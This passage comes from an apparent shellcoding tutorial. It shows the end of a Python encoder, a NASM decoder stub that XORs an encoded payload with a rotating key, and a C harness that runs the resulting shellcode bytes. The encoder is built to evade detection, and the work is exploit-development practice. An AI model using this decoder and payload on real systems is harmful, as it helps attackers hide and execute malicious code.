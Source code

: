 # Format our bytes as hex for output
formatted = [hex(b) for b in encoded]

print "Shellcode Length: %s" % len(formatted)
print(",".join(formatted))


{% endhighlight %}

Throw the bytes and shellcode length in our `decoder.nasm`

{% highlight nasm %}

DECODER_RING equ 0xdeadbeef
global _start
section .text
  _start:
    jmp short call_decoder

  decoder:
    pop esi
    mov eax, DECODER_RING
    xor edx, edx
    xor edi, edi
    mov cl, 25 ; encoded shellcode length

  reset:
    mov ebx, DECODER_RING

  decode:
    cmp ebx, edi
    jz reset
    xor [esi+edx], bl
    inc edx
    shr ebx, 0x8
    loop decode
    jmp esi

  call_decoder:
    call decoder
    encoded: db 0xde,0x7e,0xfd,0xb6,0xc0,0x91,0xc1,0xad,0x87,0x91,0xcf,0xb7,0x81,0x37,0x4e,0x8e,0x66,0x5c,0xfe,0x57,0xe,0xe,0xa6,0x13,0x6f

{% endhighlight %}

Compile, get the bytes, and load into shellcode.c stub:

{% highlight c %}

#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \
"\xeb\x20\x5e\xb8\xef\xbe\xad\xde\x31\xd2\x31\xff\xb1\x19\xbb\xef\xbe\xad\xde\x39\xfb\x74\xf7\x30\x1c\x16\x42\xc1\xeb\x08\xe2\xf3\xff\xe6\xe8\xdb\xff\xff\xff\xde\x7e\xfd\xb6\xc0\x91\xc1\xad\x87\x91\xcf\xb7\x81\x37\x4e\x8e\x66\x5c\xfe\x57\x0e\x0e\xa6\x13\x6f";



main()
{

	printf("Shellcode Length:  %d\n", strlen(shellcode));
	int (*ret)() = (int(*)())shellcode;
	ret();

}

{% endhighlight %}
